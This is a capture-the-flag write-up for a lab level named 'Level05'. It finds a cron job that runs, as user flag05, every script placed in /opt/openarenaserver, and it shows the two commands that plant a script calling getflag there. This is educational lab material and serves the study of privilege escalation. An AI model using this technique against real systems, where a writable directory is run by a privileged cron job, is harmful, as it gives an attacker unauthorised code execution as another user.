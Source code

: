 # Level05 Writeup
 
## Info
 
User level05 has nothing in the home directory. Using `find / -user level05 -find f 2> /dev/null` finds the file `openarenaserver`

`openarenaserver`
``` bash
#!/bin/sh
 
for i in /opt/openarenaserver/* ; do
       (ulimit -t 5; bash -x "$i")
       rm -f "$i"
done
```
 
User level05 has also has mail in `/var/mail/level05` (found with `find / -name level05 -find f 2> /dev/null`):
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
 
The file in /var/mail is a cron job that runs as flag05, executing `openarenaserver` every 2 minutes. Therefore we can create a script in /opt/openarenaserver that will call the `getflag` function and save it to a file like so:
 
``` bash
echo "/bin/getflag > /var/mail/flag05" > /opt/openarenaserver/exploit.sh
chmod +x /opt/openarenaserver/exploit.sh
```
 
 
 
 

